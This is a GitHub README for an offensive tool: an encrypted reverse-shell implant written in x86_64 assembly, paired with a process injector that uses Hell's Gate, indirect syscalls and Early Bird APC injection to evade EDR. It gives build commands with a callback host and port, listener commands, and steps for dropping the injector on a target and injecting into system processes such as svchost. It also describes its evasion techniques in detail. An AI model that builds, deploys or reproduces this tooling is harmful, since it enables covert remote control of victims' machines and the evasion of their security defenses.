

<div align="center">



<br>

Vapor is an encrypted reverse shell written entirely in x86_64 NASM assembly. A ~3.6 KB position-independent shellcode implant connects back over raw TCP with ChaCha20-Poly1305 authenticated encryption, resolved entirely through PEB walking — zero imports, zero dependencies. Includes a Hell's Gate + indirect syscall process injector for EDR-evasive deployment.

</div>

<br>

## Table of Contents

- [Highlights](#highlights)
- [Quick Start](#quick-start)
- [Architecture](#architecture)
- [Injector](#injector)
- [Configuration](#configuration)
- [Wire Protocol](#wire-protocol)
- [Internals](#internals)
- [Testing](#testing)
- [Project Structure](#project-structure)
- [Future Work](#future-work)

---

## Highlights

<table>
<tr>
<td width="50%">

### ChaCha20-Poly1305
Full RFC 8439 AEAD implemented in pure assembly. Authenticated encryption with a 256-bit pre-shared key — every message gets a fresh random nonce via `SystemFunction036` (RtlGenRandom), and tampered payloads are silently rejected.

</td>
<td width="50%">

### ~3.6 KB Shellcode
The entire implant — API resolution, networking, crypto, command execution, nonce generation — fits in ~3,600 bytes of position-independent code. No compiler, no runtime, no bloat.

</td>
</tr>
<tr>
<td width="50%">

### PEB Walk + Hash Lookup
All Windows APIs resolved at runtime via PEB walking and ror13 hash matching. No import table, no strings for API names — just hashes baked into the binary. `GetProcAddress` used for forwarded exports (e.g., `SystemFunction036`).

</td>
<td width="50%">

### No Dependencies
Zero DLL imports. Every API (kernel32, ws2_32, advapi32) is resolved dynamically from the PEB. Nothing to link against, nothing to install on the target.

</td>
</tr>
<tr>
<td width="50%">

### Piped Command Execution
Commands execute via `CreateProcessA` with `cmd.exe /c`, capturing stdout and stderr through anonymous pipes. A PeekNamedPipe polling loop streams output in real-time with a 30-second timeout. Output sent back encrypted over the wire.

</td>
<td width="50%">

### Dual Output Formats
Builds as both raw PIC shellcode (`vapor.bin`) for injection and a minimal PE (`vapor.exe`) for direct execution. Same source, same crypto, two deployment options.

</td>
</tr>
<tr>
<td width="50%">

### Hell's Gate + Indirect Syscalls
The injector extracts syscall numbers at runtime from ntdll stubs (Hell's Gate) with Halo's Gate fallback for hooked stubs. All NT syscalls execute via an indirect `syscall` gadget found in ntdll — the return address traces back to ntdll, not the injector.

</td>
<td width="50%">

### Early Bird APC Injection
Target process created suspended via `CreateProcessA`. Shellcode written to remote memory (RW → RX) using NT syscalls, then queued as an APC to the main thread. On resume, the APC fires before the process entry point — before EDR userland hooks are initialized.

</td>
</tr>
</table>

---

## Quick Start

### Prerequisites

| Requirement | Version |
|-------------|---------|
| NASM | Latest |
| MinGW-w64 (linker) | `x86_64-w64-mingw32-ld` |
| Python | >= 3.8 |
| cryptography | `pip install cryptography` |

### Build & Deploy

```bash
# Clone
git clone https://github.com/Real-Fruit-Snacks/Vapor.git
cd Vapor

# Build — generates a random PSK, assembles, prints the listener command
./build.sh 10.10.14.1 443

# Or specify your own key
./build.sh 10.10.14.1 443 <64-char-hex>

# Or use make directly
make LHOST=10.10.14.1 LPORT=443 KEY=<64-char-hex> all

# Start the listener (build.sh prints this command with your key)
python3 listener.py --lport 443 --key <key>

# Deploy vapor.exe to target (or inject vapor.bin via injector.exe)
```

> The build script generates a random 256-bit PSK if you don't provide one, assembles the implant (shellcode + PE), builds the injector, and prints the exact listener command with your key.

### Injector Deployment

```bash
# Build injector targeting a specific process (default: RuntimeBroker.exe)
make LHOST=10.10.14.1 LPORT=443 KEY=<key> TARGET="C:\Windows\System32\svchost.exe" all

# Deploy injector.exe to target — it embeds vapor.bin and injects on execution
```

The injector embeds `vapor.bin` at build time via `incbin`. Drop `injector.exe` on the target and run it — no additional files needed.

---

## Architecture

```
[Target]                          [Operator]
 vapor  ────── raw TCP ──────>  listener.py
        <── encrypted cmd ────
        ── encrypted output ──>
```

| Layer | Implementation |
|-------|----------------|
| **Transport** | Raw TCP socket via `WSASocketA` / `connect` |
| **Encryption** | ChaCha20-Poly1305 AEAD (RFC 8439), pre-shared 256-bit key |
| **Nonce** | 12 bytes, random per message via `SystemFunction036` (RtlGenRandom) |
| **Wire Format** | `[len(4)][nonce(12)][ciphertext][mac(16)]` |
| **API Resolution** | PEB walk → LDR → export table → ror13 hash matching |
| **Execution** | `CreateProcessA` with `cmd.exe /c`, piped stdout+stderr, PeekNamedPipe polling, 30s timeout |
| **Injection** | Hell's Gate SSN extraction → indirect syscall via ntdll gadget → Early Bird APC |
| **Listener** | Python 3 with `cryptography` library, Catppuccin Mocha themed CLI |

---

## Injector

The process injector (`injector.asm` / `injector.exe`) deploys `vapor.bin` into a target process using direct NT syscalls — no high-level API calls that EDR can hook.

### Technique Stack

| Technique | Purpose |
|-----------|---------|
| **Hell's Gate** | Extract syscall numbers (SSNs) at runtime from ntdll stub opcodes (`4C 8B D1 B8 XX XX 00 00`) |
| **Halo's Gate** | Fallback when stubs are hooked — scan neighbor stubs ±16 positions, adjust SSN by distance |
| **Indirect Syscalls** | Jump to ntdll's `syscall; ret` gadget (`0F 05 C3`) so the return address is within ntdll |
| **Early Bird APC** | Queue shellcode as APC to suspended process — fires before entry point and EDR hooks |

### Injection Flow

```
1. PEB walk → find ntdll.dll + kernel32.dll
2. Resolve CreateProcessA, ExitProcess via export table hash walk
3. Hell's Gate: extract SSNs for 5 NT functions from ntdll stubs
4. Find indirect syscall gadget (0F 05 C3) in ntdll .text section
5. CreateProcessA(TARGET, CREATE_SUSPENDED)
6. NtAllocateVirtualMemory — allocate RW memory in target
7. NtWriteVirtualMemory — write vapor.bin shellcode
8. NtProtectVirtualMemory — change RW → RX
9. NtQueueApcThread — queue shellcode to suspended main thread
10. NtResumeThread — thread wakes, APC fires, shellcode executes
```

### NT Syscalls Used

| Syscall | ror13 Hash | Purpose |
|---------|------------|---------|
| `NtAllocateVirtualMemory` | `0xd33bcabd` | Allocate RW memory in target process |
| `NtWriteVirtualMemory` | `0xc5108cc2` | Write shellcode into allocated memory |
| `NtProtectVirtualMemory` | `0x8c394d89` | Flip memory protection RW → RX |
| `NtQueueApcThread` | `0x52e9a746` | Queue APC to suspended thread |
| `NtResumeThread` | `0xc54a46c8` | Resume thread to trigger APC execution |

### Build-time Target

The injector target process is configurable at build time:

```bash
# Default: RuntimeBroker.exe
make all

# Custom target
make TARGET="C:\Windows\System32\svchost.exe" all
make TARGET="C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE" all
```

---

## Configuration

### Compile-time (Makefile variables)

| Variable | Default | Description |
|----------|---------|-------------|
| `LHOST` | `127.0.0.1` | Callback IP |
| `LPORT` | `443` | Callback port |
| `KEY` | Random 256-bit | Pre-shared key (64 hex chars) |
| `TARGET` | `C:\Windows\System32\RuntimeBroker.exe` | Injector target process path |

### Listener arguments

| Flag | Default | Description |
|------|---------|-------------|
| `--lhost` | `0.0.0.0` | Listen address |
| `--lport` | `443` | Listen port |
| `--key` | Required | 64-char hex PSK |

---

## Wire Protocol

Every message on the wire follows the same framing, in both directions:

```
┌──────────┬──────────────┬────────────────┬──────────┐
│ len (4B) │ nonce (12B)  │ ciphertext (N) │ mac (16B)│
│ LE u32   │ random       │ ChaCha20       │ Poly1305 │
└──────────┴──────────────┴────────────────┴──────────┘
```

- **len**: Little-endian uint32, covers `nonce + ciphertext + mac` (everything after the length field)
- **nonce**: 12 random bytes from `SystemFunction036` (RtlGenRandom)
- **ciphertext**: ChaCha20 stream cipher (counter starts at 1, per RFC 8439)
- **mac**: Poly1305 tag computed over `pad16(ciphertext) || le64(0) || le64(ct_len)` using one-time key derived from ChaCha20 block 0

The operator sends plaintext commands (e.g., `whoami`, `dir`). The implant executes them via `cmd.exe /c` and returns the output. Send `EXIT` to cleanly disconnect.

---

## Internals

### API Resolution

1. Walk the PEB (`gs:[0x60]`) → `PEB_LDR_DATA` → `InMemoryOrderModuleList`
2. Hash each module name with ror13 to find `kernel32.dll`
3. Walk the export table, hashing each export name with ror13 to match
4. `GetProcAddress` resolves forwarded exports (advapi32 → cryptbase forwarding for `SystemFunction036`)

### Crypto Implementation

All crypto is implemented in pure x86_64 assembly:

- **ChaCha20 quarter-round**: Register-based, 10 double-rounds (20 rounds total)
- **ChaCha20 block**: Generates 64-byte keystream blocks
- **ChaCha20 encrypt**: XOR keystream with plaintext/ciphertext, counter starting at 1
- **Poly1305 MAC**: Full mod 2^130-5 arithmetic with 128-bit partial products and proper overflow handling via `mul` (not `lea` truncation)
- **AEAD**: ChaCha20 block 0 → Poly1305 one-time key, encrypt with counter 1+, MAC over ciphertext per RFC 8439 Section 2.8

### Hell's Gate SSN Extraction

```
1. Read first 4 bytes of ntdll stub
2. Check for mov r10, rcx; mov eax, SSN pattern (4C 8B D1 B8)
3. If matched: SSN = bytes [4..5] — done
4. If hooked (JMP patch): Halo's Gate fallback
   a. Scan neighbor stubs ±32 bytes (up to 16 in each direction)
   b. Find first unhooked neighbor
   c. SSN = neighbor_SSN ± distance
```

### Memory Layout

The implant allocates ~148 KB on the stack (37 guard pages probed):

| Offset | Size | Purpose |
|--------|------|---------|
| `+0` | 8 KB | Receive buffer (decrypted commands) |
| `+8192` | 64 KB | Output buffer (command stdout/stderr) |
| `+73728` | 64 KB | Crypto buffer (nonce + ciphertext + MAC) |
| `+139328` | 8 KB | Command string (`cmd.exe /c ...`) |
| `+147584` | 480 B | STARTUPINFO, PROCESS_INFORMATION, pipe handles, etc. |

---

## Testing

### Manual Testing

```bash
# Terminal 1: Start listener
python3 listener.py --lhost 127.0.0.1 --lport 4444 --key aabbccdd11223344aabbccdd11223344aabbccdd11223344aabbccdd11223344

# Terminal 2: Launch implant directly
.\vapor.exe

# Terminal 2 (alt): Launch via injector
.\injector.exe
```

Automated E2E tests and component test harnesses are in the `tests/` directory (not included in the repository).

---

## Project Structure

```
vapor/
├── vapor.asm          # Implant source (~1636 lines x86_64 NASM)
├── injector.asm       # Hell's Gate + indirect syscall + Early Bird APC injector
├── listener.py        # Python TCP listener with interactive CLI
├── build.sh           # One-command build script (key gen + assemble)
├── Makefile           # NASM + ld build targets (vapor + injector)
└── docs/
    ├── index.html     # GitHub Pages landing page
    └── banner.svg     # Repository banner
```

---

## Future Work

- Reconnect with jittered backoff
- File upload/download commands
- Anti-debug / anti-sandbox checks
- Staged payload delivery
- SOCKS proxy pivoting

---

<div align="center">

**Pure assembly. Fully encrypted.**

*Vapor — ChaCha20-Poly1305 reverse shell in ~3.6 KB*

</div>
